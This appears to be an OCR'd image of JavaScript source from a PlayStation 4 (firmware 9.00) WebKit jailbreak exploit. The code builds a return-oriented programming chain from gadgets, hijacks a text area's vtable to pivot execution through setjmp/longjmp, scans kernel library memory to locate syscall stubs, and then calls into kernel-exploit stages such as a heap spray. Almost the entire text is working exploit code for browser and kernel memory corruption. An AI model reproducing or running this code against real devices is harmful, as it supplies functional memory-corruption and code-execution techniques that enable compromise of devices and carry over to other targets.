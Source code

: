                chain.push(window.gadgets["pop rdi"]);
                chain.push(original_context);
                chain.push(libSceLibcInternalBase.add32(OFFSET_libcint_longjmp));    
                p.write8(textAreaVtPtr, fakeVtable_setjmp);
                textArea.scrollLeft = 0x0;
                p.write8(modified_context.add32(0x00), window.gadgets["ret"]);
                p.write8(modified_context.add32(0x10), chain.stack);
                p.write8(modified_context.add32(0x40), p.read8(original_context.add32(0x40)))    
                p.write8(textAreaVtPtr, fakeVtable_longjmp);
                textArea.scrollLeft = 0x0;
                p.write8(textAreaVtPtr, textAreaVtable);
            }    
            var kview = new Uint8Array(0x1000);
            var kstr = p.leakval(kview).add32(0x10);
            var orig_kview_buf = p.read8(kstr);    
            p.write8(kstr, window.libKernelBase);
            p.write4(kstr.add32(8), 0x40000);
            var countbytes;    
            for (var i = 0; i < 0x40000; i++) {
                if (kview[i] == 0x72 && kview[i + 1] == 0x64 && kview[i + 2] == 0x6c && kview[i + 3] == 0x6f && kview[i + 4] == 0x63) {
                    countbytes = i;
                    break;
                }
            }
            p.write4(kstr.add32(8), countbytes + 32);
            var dview32 = new Uint32Array(1);
            var dview8 = new Uint8Array(dview32.buffer);
            for (var i = 0; i < countbytes; i++) {
                if (kview[i] == 0x48 && kview[i + 1] == 0xc7 && kview[i + 2] == 0xc0 && kview[i + 7] == 0x49 && kview[i + 8] == 0x89 && kview[i + 9] == 0xca && kview[i + 10] == 0x0f && kview[i + 11] == 0x05) {
                    dview8[0] = kview[i + 3];
                    dview8[1] = kview[i + 4];
                    dview8[2] = kview[i + 5];
                    dview8[3] = kview[i + 6];
                    var syscallno = dview32[0];
                    window.syscalls[syscallno] = window.libKernelBase.add32(i);
                }
            }
            p.write8(kstr, orig_kview_buf);    
            chain = new rop();    
            //Sanity check
            if (chain.syscall(20).low == 0) {
                alert("webkit exploit failed. Try again if your ps4 is on fw 9.00.");
                while (1);
            }
        }    
        function run_hax() {
            userland();
            if (chain.syscall(23, 0).low != 0x0) {
                kernel();
            }else {
                loadBIN();
            }
        }    
        function kernel() {
            extra_gadgets();
            kchain_setup();
            object_setup();
            trigger_spray();
        }    
        var handle;
        var random_path;
        var ex_info;    